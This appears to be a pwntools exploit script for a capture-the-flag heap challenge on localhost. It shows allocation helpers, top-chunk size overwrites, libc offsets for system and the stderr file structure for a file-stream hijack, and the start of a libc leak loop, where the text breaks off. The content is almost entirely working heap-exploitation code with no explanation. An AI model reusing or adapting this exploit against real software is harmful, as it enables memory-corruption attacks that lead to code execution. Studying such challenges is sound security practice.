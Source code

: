 ```python
"""
HOST = "localhost"
PORT = 7777
#"""

if len(sys.argv) > 1 and sys.argv[1] == 'r':
	conn = remote(HOST, PORT)
else:
	conn = process(FILE_NAME)

elf = ELF(FILE_NAME)
addr_main = elf.symbols["main"]

libc = ELF('./libc.so.6')
off_stderr = libc.symbols["_IO_2_1_stderr_"]
off_system = libc.symbols["system"]
local_base = 0x7ffff7dab000 
off_bins = 0x00007ffff7faec10 - local_base
off_wfile_jumps = 0x7ffff7fad228 - local_base

def alloc(size):
	conn.sendlineafter("> ", "1")
	conn.sendlineafter(": ", str(size))
	conn.recvuntil("ID:")
	aid = int(conn.recvuntil(" "),16)
	return aid

def edit(aid, data):
	conn.sendlineafter("> ", "2")
	conn.sendlineafter(": ", str(aid))
	conn.sendafter(": ", data)

def free(aid):
	conn.sendlineafter("> ", "3")
	conn.sendlineafter(": ", str(aid))

def exploit():
	
	id_x = alloc(0x400)
	free(id_x)
	id_x = alloc(0x400)
	free(id_x)
	id_x = alloc(0x400)
	edit(id_x,b'a'*0x3f8+p64(0x141)[:-1])		# overwrite top chunk size
	free(id_x)

	for i in range(7):
		for j in range(3):
			id_x = alloc(0x400)
			free(id_x)
		id_x = alloc(0x280)
		edit(id_x,b'a'*0x278+p64(0x141)[:-1])	# overwrite top chunk size
		free(id_x)
	id_x = alloc(0x400)
	free(id_x)

	id_x = alloc(0x20)
	free(id_x)

	# libc leak
	conn.recvuntil("> ")
	for i in range(0x7fff, 0x7e00, -1):
		conn.sendline("3")
```